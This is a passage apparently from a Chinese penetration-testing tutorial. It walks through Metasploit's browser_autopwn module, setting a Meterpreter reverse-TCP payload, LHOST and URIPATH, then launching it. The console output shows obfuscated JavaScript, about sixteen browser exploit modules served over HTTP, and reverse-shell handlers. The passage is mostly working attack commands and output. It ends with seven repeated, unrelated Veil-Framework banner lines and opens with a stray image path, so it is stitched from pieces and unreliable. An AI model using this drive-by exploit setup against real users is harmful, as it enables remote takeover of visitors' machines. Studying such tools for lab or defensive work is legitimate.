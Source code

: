 （4）设置 payload。执行命令如下所示：

```
msf auxiliary(browser_autopwn) > set payload windows/meterpreter/ reverse_tcp
payload => windows/meterpreter/reverse_tcp 
```

（5）查看 payload 的选项。执行命令如下所示：

![187-02](img/00301.jpg)

输出的信息显示了 payload 模块的选项。此时就可以选择需要设置的选项进行配置。

（6）配置 LHOST 选项。执行命令如下所示：

```
msf auxiliary(browser_autopwn) > set LHOST 192.168.41.234
LHOST => 192.168.41.234 
```

以上输出的信息表示指定本地主机使用的 IP 地址是 192.168.41.234。

（7）配置 URIPATH 选项。执行命令如下所示：

```
msf auxiliary(browser_autopwn) > set URIPATH "filetypes"
URIPATH => filetypes 
```

（8）启用渗透攻击。执行命令如下所示：

```
msf auxiliary(browser_autopwn) > exploit
[*] Auxiliary module execution completed
[*] Setup
[*] Obfuscating initial javascript 2014-04-30 19:00:49 +0800
[*] Done in 0.718574284 seconds
msf auxiliary(browser_autopwn) >
[*] Starting exploit modules on host 192.168.41.234…
[*] ---
[*] Starting exploit multi/browser/java_atomicreferencearray with payload java/meterpreter/ reverse_tcp
[*] Using URL: http://0.0.0.0:8080/BjlwyiXpeQHIG
[*] Local IP: http://192.168.41.234:8080/BjlwyiXpeQHIG
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_jmxbean with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/NVVrXNZ
[*] Local IP: http://192.168.41.234:8080/NVVrXNZ
[*] Server started.
…省略部分内容…
[*] Started reverse handler on 192.168.41.234:6666
[*] Started reverse handler on 192.168.41.234:7777
[*] Starting the payload handler…
[*] Starting the payload handler…
[*] --- Done, found 16 exploit modules
[*] Using URL: http://0.0.0.0:8080/filetypes
[*] Local IP: http://192.168.41.234:8080/filetypes
```

 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework